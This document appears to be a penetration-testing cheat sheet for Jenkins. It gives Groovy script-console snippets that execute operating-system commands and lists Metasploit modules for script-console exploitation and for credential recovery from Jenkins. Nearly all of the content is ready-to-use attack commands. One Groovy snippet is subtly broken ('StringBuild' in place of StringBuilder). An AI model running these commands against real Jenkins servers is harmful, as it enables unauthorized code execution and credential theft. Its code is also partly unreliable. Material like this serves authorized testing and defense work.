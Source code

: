 # Jenkins

## Scripting

```groovy
println "<command>".execute().text;

println "whoami".execute().text;

println "systeminfo".execute().text;
```

```groovy
println "Command processor"
def sout = new StringBuild(), serr = new StringBuilder();
def args = ["cmd", "/c", "dir C:\\path\\to\\directory\\"];
def proc = new ProcessBuilder(args);
Process process = proc.start();
process.consumeProcessOutput(sout, serr);
process.waitForOrKill(2000);
println sout;
```

## Metasploit

```
msf > use exploit/multi/http/jenkins_script_console

set rhost <target_IP>

set rport <target_PORT>
```

```
msf > use post/multi/gather/jenkins_gather

auxiliary/gather/jenkins_cred_recovery
```

---
## References

### Source Repositories

- [gquere: Pwn Jenkins](https://github.com/gquere/pwn_jenkins)

### Hacktricks

- [Hacktricks: Jenkins](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

### Hacking Articles

- [Hacking Articles: Jenkins Penetration Testing](https://www.hackingarticles.in/jenkins-penetration-testing/)

### Highon Coffee

- [Highon Coffee: Jenkins RCE via Unauthenticated API](https://highon.coffee/blog/jenkins-api-unauthenticated-rce-exploit/)

### HDYSec

- [HDYSec: Double Pivoting both Metasploit and Manual Pivoting](https://web.archive.org/web/20240226150345/https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/)

### TrustedSec

- [TrustedSec: Offensively Groovy](https://trustedsec.com/blog/offensively-groovy)